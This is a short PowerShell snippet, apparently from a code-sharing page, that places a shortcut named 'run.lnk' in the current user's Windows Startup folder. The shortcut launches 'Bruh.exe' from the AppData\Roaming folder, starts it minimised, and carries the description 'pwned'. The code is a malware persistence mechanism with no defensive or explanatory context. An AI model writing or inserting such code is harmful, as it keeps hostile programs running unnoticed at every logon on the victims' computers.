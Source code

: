 <d1>$ComObj = New-Object -ComObject WScript.Shell
$ShortCut = $ComObj.CreateShortcut("$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\run.lnk")
$ShortCut.TargetPath = "$Env:USERPROFILE\AppData\Roaming\Bruh.exe"
$ShortCut.Description = "pwned"
$ShortCut.FullName 
$ShortCut.WindowStyle = 7
$ShortCut.Save()<d1>
